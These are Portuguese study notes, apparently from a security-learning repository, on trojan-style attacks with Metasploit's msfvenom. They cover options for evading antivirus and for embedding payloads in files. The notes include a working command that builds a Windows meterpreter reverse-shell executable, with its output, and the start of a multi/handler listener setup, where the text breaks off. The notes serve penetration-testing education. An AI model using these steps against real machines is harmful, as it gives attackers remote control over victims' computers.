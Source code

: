 # Ataques com virus, trojans e etc.

- Não é explorada uma vunerabilidade do sistema, mas a falha humana.
- Consiste de enviar um payload à máquina alvo e esperar a sua execução. O payload é executado pelo próprio usuário da máquina alvo.

## msfvenom

O **`msfvenom`** é uma ferramenta do **Metasploit Framework**, usada principalmente para **criar payloads** maliciosos customizados.

O `msfvenom` permite que você:
* **Gere executáveis maliciosos** (ex.: `.exe`, `.apk`, `.elf`, `.ps1`) que, quando executados, dão controle remoto da máquina para o atacante.
* **Incorpore payloads em arquivos existentes** (ex.: PDF, imagem, etc.).
* **Codifique/encode** o payload com diferentes métodos para dificultar detecção por antivírus.
* **Escolha formatos de saída** (binário cru, executável, código fonte em C, Python, Powershell etc.).

### Parâmetros básicos
- -p, --payload [payload] - payload a ser utilizado no ataque
- -l, --list  [module_type] - Listaumtipo de modulo (payloads, encoders, nops, all...)
- -f, --format  [format] - formato de saída (exe, py, rb...)
- -o, --out  [path] - nome do arquivo que conterá o playload

### Criação do payload
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell1.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell1.exe
```

### Listening
Após o payload ser enviado, começamos a escutar a rede, aguardando o pauload ser executado.
- É necessário estar executando o listening antes da execução do playload.

Iniciando a escuta...
```
$ msfconsole
Metasploit tip: Use sessions -1 to interact with the last opened session
                                                  
       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 432 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
```
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```
```
msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
```